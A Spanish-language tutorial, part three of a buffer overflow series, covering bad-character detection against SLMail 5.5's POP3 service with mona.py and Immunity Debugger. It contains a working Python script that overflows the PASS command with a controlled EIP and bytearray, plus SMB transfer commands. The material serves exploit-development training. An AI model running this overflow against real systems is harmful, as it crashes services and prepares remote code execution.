





# Buffer Overflow - Parte 3:  Generación de Bytearrays y detección de Badchars

---

## 📋 Índice
- [¿Qué son los Bytearrays?](#qué-son-los-bytearrays)
- [¿Qué son los Bad Characters?](#qué-son-los-bad-characters)
- [Generación de Bytearrays con mona.py](#generación-de-bytearrays-con-monapy)
- [Detección de Bad Characters](#detección-de-bad-characters)
- [Iteración y refinamiento](#iteración-y-refinamiento)
- [Siguientes pasos](#siguientes-pasos)

---

## ¿Qué son los Bytearrays?

### 📦 Concepto

Un **bytearray** es una secuencia completa de todos los bytes posibles (de `0x00` a `0xFF`, 256 valores totales). Se utiliza para probar cuáles de esos bytes el programa vulnerable interpreta incorrectamente.

```python
# Ejemplo de bytearray completo (primeros bytes)
bytearray = b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f..."
#            └─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘└─┬─┘
#              0    1    2    3    4    5    6    7    8    9   10   11   12 ... 
```

### 🎯 ¿Para qué sirven?

| Propósito | Descripción |
|-----------|-------------|
| **Testing exhaustivo** | Envía TODOS los bytes posibles al programa |
| **Identificar badchars** | Detecta cuáles se corrompen o desaparecen |
| **Validar shellcode** | Asegura que el payload llegue intacto |
| **Optimizar exploit** | Evita bytes problemáticos en el shellcode final |

### 📊 Representación visual



---

## ¿Qué son los Bad Characters? 

### 🚫 Definición

Un **bad character (badchar)** es un byte que el programa vulnerable procesa de manera incorrecta, causando: 
- **Truncamiento** del payload
- **Modificación** de bytes subsiguientes
- **Terminación prematura** del procesamiento
- **Corrupción** del shellcode

### 📋 Bad Characters comunes

| Byte | Hex | Nombre | Por qué es problemático |
|------|-----|--------|------------------------|
| NULL | `\x00` | Null terminator | Termina strings en C (siempre badchar) |
| LF | `\x0a` | Line Feed | Interpretado como salto de línea |
| CR | `\x0d` | Carriage Return | Interpretado como retorno de carro |
| Space | `\x20` | Espacio | Algunos parsers lo filtran |
| & | `\x26` | Ampersand | Puede ser filtrado en URLs/HTTP |

> [!warning] Bad characters específicos
> Cada programa tiene sus propios badchars. Lo que es malo para SLMail puede no serlo para otro servicio.  **Siempre hay que probar**. 

### 🔍 Cómo afectan al exploit



**Ejemplo práctico:**

```
Shellcode enviado:   \x90\x90\x90\x0a\x31\xc0\x50\x68
                                  ↑
                            Bad character
                                  
Shellcode recibido:  \x90\x90\x90\x20\x00\x00\x00\x00
                                  ↑    ↑─────────────┘
                            Modificado  Resto corrupto
```

---

## Generación de Bytearrays con mona.py

### 🛠️ Configuración inicial

#### 1️⃣ Establecer directorio de trabajo

```bash
! mona config -set workingfolder C:\Users\Usuario\Desktop\mona_output
```

Esto guardará todos los archivos generados por mona en un lugar específico y fácil de encontrar.

> [!tip] Ruta recomendada
> Usa una carpeta en el Desktop para acceso rápido:
> ```
> C:\Users\<TuUsuario>\Desktop\mona_slmail
> ```

---

### 🧪 Creación de Bytearrays

#### Método 1: Bytearray completo

```bash
!mona bytearray
```

**Resultado:**
- Genera archivo `bytearray.bin` en el directorio de trabajo
- Contiene TODOS los bytes (0x00 a 0xFF)

---

#### Método 2: Excluir bad characters conocidos

```bash
# Excluir solo null byte (siempre es badchar)
!mona bytearray -cpb "\x00"

# Excluir múltiples bad characters
!mona bytearray -cpb "\x00\x0a\x0d"

# Excluir muchos bad characters
!mona bytearray -cpb "\x00\x0a\x0d\x20\x25\x26"
```

**Parámetros:**
- `-cpb`: "Custom Pattern Bytes" - Excluye los bytes especificados

> [!info] Iteración progresiva
> Comenzamos excluyendo solo `\x00`, luego añadimos más a medida que los descubrimos. 

---

### 📁 Transferir bytearray. bin a la máquina atacante

#### Opción 1: SMB (Recomendado)

Desde tu Kali/Parrot:
```bash
# Crear carpeta compartida
mkdir /tmp/smb_share
chmod 777 /tmp/smb_share

# Iniciar servidor SMB con impacket
impacket-smbserver share /tmp/smb_share -smb2support
```

Desde Windows:
```cmd
# Copiar archivo al share
copy C:\Users\Usuario\Desktop\mona_slmail\bytearray.bin \\KALI_IP\share\
```

#### Opción 2: Copiar manualmente el contenido

Abre `bytearray.txt` (generado junto con el `.bin`) y copia el contenido al script.

---

## Detección de Bad Characters

### 🔬 Proceso completo



---

### 📝 Script Python con bytearray

```python name="detect_badchars.py"
import socket
import sys

IP_ADDRESS = "192.168.1.5"
PORT = 110
OFFSET = 2606

# === BYTEARRAY GENERADO POR MONA ===
# ! mona bytearray -cpb "\x00"
BADCHARS = (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
    b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
    b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
    b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
    b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
    b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
    b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
    b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
    b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
    b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
    b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
    b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
    b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
    b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
    b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

# Construcción del payload
BEFORE_EIP = b"A" * OFFSET
EIP = b"B" * 4
AFTER_EIP = BADCHARS  # ← Aquí va el bytearray

PAYLOAD = BEFORE_EIP + EIP + AFTER_EIP

def exploit():
    try:
        print(f"\n[*] Conectando a {IP_ADDRESS}:{PORT}...")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP_ADDRESS, PORT))
        
        banner = s.recv(1024)
        print(f"[+] Banner:  {banner.decode().strip()}")
        
        # USER
        s.send(b"USER test\r\n")
        response = s.recv(1024)
        print(f"[+] USER enviado: {response.decode().strip()}")
        
        # PASS + Payload
        print(f"[! ] Enviando bytearray ({len(BADCHARS)} bytes)...")
        s.send(b"PASS " + PAYLOAD + b"\r\n")
        s.close()
        
        print("[+] Payload enviado correctamente")
        print("\n[*] Ahora en Immunity Debugger:")
        print("    1. Observa el valor del ESP")
        print("    2. Click derecho en ESP → Follow in Dump")
        print("    3. Busca bytes que falten o cambien")
        print("    4. Usa:  !mona compare -a <ESP> -f bytearray.bin")
        
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == '__main__':
    if len(sys.argv) > 1:
        IP_ADDRESS = sys.argv[1]
    
    exploit()
```

**Ejecución:**
```bash
python detect_badchars.py 192.168.1.5
```

---

### 🔍 Análisis manual en Immunity Debugger

#### Paso 1: Localizar el ESP

Cuando se produzca el crash: 
1. Observa el panel de registros (arriba derecha)
2. Anota el valor del **ESP** (ejemplo: `0x019FFA30`)


---

#### Paso 2: Seguir el ESP en el dump

1. **Click derecho** en el valor del ESP
2. Selecciona:  **Follow in Dump** (o presiona `Ctrl+G`)
3. Ahora el panel inferior izquierdo (Hex Dump) muestra el contenido del ESP

---

#### Paso 3: Buscar bytes faltantes

```
Esperado:   01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F 10... 
           │  │  │  │  │  │  │  │  │  XX │  │  │  │  │  │
Recibido:   01 02 03 04 05 06 07 08 09 29 0B 0C 0D 0E 0F 10... 
                                      ↑↑
                                    Salta de 09 a 29
                                    Falta 0A = BADCHAR
```

> [!warning] Interpretar saltos
> Si después del byte `0x09` aparece `0x29` (o cualquier otro byte mayor), significa que todos los bytes intermedios son badchars.

---

### 🤖 Análisis automatizado con mona

```bash
! mona compare -a 0x019FFA30 -f C:\Users\Usuario\Desktop\mona_slmail\bytearray.bin
```

**Parámetros:**
- `-a`: Dirección del ESP (donde está el bytearray en memoria)
- `-f`: Ruta al archivo `bytearray.bin` generado por mona

**Salida ejemplo:**

```
[+] Comparing with file:  bytearray.bin
[+] Reading 255 bytes from file
[! ] Possibly bad chars:  0a
[+] Badchars:  \x00\x0a
```

> [!tip] Interpretación de resultados
> - **Unmodified**: No hay badchars adicionales ✅
> - **Possibly bad chars**: Lista de bytes que no coinciden ⚠️
> - **Badchars**: Lista acumulada de todos los badchars encontrados 📝

---

## Iteración y refinamiento

### 🔄 Proceso iterativo

Cada vez que encuentres un badchar, debes: 

1. **Regenerar el bytearray** excluyendo el nuevo badchar
2. **Actualizar el script** con el nuevo bytearray
3. **Re-ejecutar el exploit**
4. **Verificar nuevamente** hasta que no aparezcan más badchars

### 📊 Tabla de iteraciones (ejemplo)

| Iteración | Comando mona | Badchars detectados | Badchars acumulados |
|-----------|--------------|---------------------|---------------------|
| 1 | `!mona bytearray` | `\x00` | `\x00` |
| 2 | `!mona bytearray -cpb "\x00"` | `\x0a` | `\x00\x0a` |
| 3 | `!mona bytearray -cpb "\x00\x0a"` | `\x0d` | `\x00\x0a\x0d` |
| 4 | `!mona bytearray -cpb "\x00\x0a\x0d"` | Ninguno | `\x00\x0a\x0d` ✅ |

### 🔁 Workflow completo



---

## 💡 Consejos prácticos

> [!tip] Reiniciar el servicio
> Después de cada crash, debes reiniciar SLMail:
> 1. En Windows: Servicios → SLmail → Reiniciar
> 2. O desde cmd: `net stop "SLmail" && net start "SLmail"`
> 3. Volver a adjuntar Immunity Debugger al proceso

> [!warning] Badchars en cascada
> A veces un badchar corrompe los bytes siguientes.  Cuando encuentres uno, regenera el bytearray inmediatamente para evitar falsos positivos.

> [!example] Automatización con script
> Puedes automatizar las iteraciones con un script que: 
> ```bash
> for badchar in 00 0a 0d; do
>     mona bytearray -cpb "\x${badchar}"
>     python detect_badchars.py
>     sleep 5
> done
> ```

---

## 📋 Checklist de validación

- [ ] Generé el bytearray inicial con mona
- [ ] Transferí el archivo a mi máquina atacante
- [ ] Incluí el bytearray en el script Python
- [ ] Ejecuté el exploit y el programa crasheó
- [ ] Localicé el valor del ESP en Immunity
- [ ] Seguí el ESP en el Hex Dump
- [ ] Identifiqué visualmente los bytes faltantes
- [ ] Usé `!mona compare` para confirmar badchars
- [ ] Regeneré el bytearray excluyendo el badchar encontrado
- [ ] Repetí el proceso hasta que `!mona compare` mostró "Unmodified"

---

## 🎯 Resultado esperado

Al finalizar esta fase tendrás:

```python
# Lista completa de bad characters para SLMail 5.5
BADCHARS = ["\x00", "\x0a", "\x0d"]

# Esta lista se usará en msfvenom para generar shellcode sin badchars
```

---

## 🔗 Siguientes pasos



---

## 📚 Comandos de referencia rápida

| Fase | Comando | Descripción |
|------|---------|-------------|
| **Setup** | `!mona config -set workingfolder C:\ruta` | Configurar directorio |
| **Generar** | `!mona bytearray` | Bytearray completo |
| **Excluir** | `!mona bytearray -cpb "\x00\x0a"` | Sin badchars conocidos |
| **Comparar** | `!mona compare -a 0xESP -f bytearray.bin` | Detectar badchars |
| **Transferir** | `impacket-smbserver share /tmp/share` | SMB para copiar archivos |

---

> [!success] Resumen de Parte 3
> 
> ✅ **Bytearray**:  Secuencia de todos los bytes posibles (0x00-0xFF)  
> ✅ **Bad characters**: Bytes que el programa corrompe o filtra  
> ✅ **Proceso iterativo**: Detectar → Excluir → Regenerar → Repetir  
> ✅ **Mona compare**: Automatiza la detección de badchars  
> ✅ **Resultado**: Lista definitiva de badchars para generar shellcode  
> 
> **Próximo paso:** [[Parte 4 - Búsqueda de OpCodes para entrar al ESP y cargar nuestro Shellcode]]